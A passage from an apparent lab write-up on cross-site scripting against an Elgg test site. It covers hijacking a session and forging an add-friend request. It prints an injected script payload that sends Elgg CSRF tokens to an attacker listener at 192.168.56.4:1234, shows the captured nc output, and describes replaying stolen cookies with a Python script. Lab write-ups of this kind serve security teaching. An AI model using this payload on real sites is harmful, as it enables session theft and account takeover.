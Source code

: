 The cookie starts after `%3D`.

### Task 4 : session hijacking using the stolen cookies
This task is about stealing the session of a legitimate user by using their cookie and then add the victim as a friend. To do this the process of adding a friend has to be known to the attacker. Therefore, the attacker creates another account say `samy`. This account can be added as a friend to `user11`'s account to observe the process of adding a friend. The attacker logs in to the account of `samy` and visits `user11`. Then he enables the inspect mode of the browser to watch the requests ad cookies as he adds `user11` as a friend to `samy`.
The friend addig process then shows a GET request -
```
http://www.xsslabelgg.com/action/friends/add?friend=43&__elgg_ts=152022381&__elgg_token=f0aaab1d9af23flb3lb876bfa5640cel
```
Also, the cookie is sent as a part of the request header.
Therefore, the 3 important things noted are -
1. the `friend=43` part which specifies the umber associated with the `user11` account.
2. the cookie sent as a part of request header.
3. the two parts `__elgg_ts` and `__elgg_token` which are tokens used as a countermeasure against the cross site request forgery attack.
The above have to be found and can also be found on the view-source page of the website.
The two tokens are stored in variables as mentioned above and since they are different for every web user, even if the attacker does not know the tokens of user `alice`, the name of the two token variables can be used to call the values. The response part for the request under inspect element can help locate these variables being used as - `elgg.security.token.__elgg_ts` and `elgg.security.token.__elgg_token`.
Using these variables, the attack code can be formed.
Use of cookie retrieval technique to retrieve the two tokens as well.
```js
<script>document.write('<img src=http://192.168.56.4:1234?c='+elgg.security.token.__elgg_ts+'&'+elgg.security.token.__elgg_token+'  >');</script>
```
The nc output seems like this -
```
GET /?c=1520227817&0fab54e97b2fa75c39d298de602a5939 HTTP/1.1
Host: 192.168.56.4:1234
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: keep-alive
```
The tokens are separated by the `&`.
If the web app does not match passwords (or the case when we have the password of the intended victim), we can simply use a python script to use the authentication and use `requests` module to send a `GET` request and the attack will have been executed. The code will take the input from the nc command and the output of nc command can be split into sections to get the required cookies and the tokens. Then the script can be used to send a request to the desired link using the HTTPBasicAuth module and the cookies and parameters set along with the `GET` request. This can be used in cases when the script file we make is bigger than the allowed number of characters inside the text box that has the vulnerability.

To actually make other accounts execute the malicious code that can trigger them making the attacker their friend, the code needs to be in the same place where the previous codes to obtain cookie and the tokens were placed. This is the case when the password of the victim is not held with the attacker.
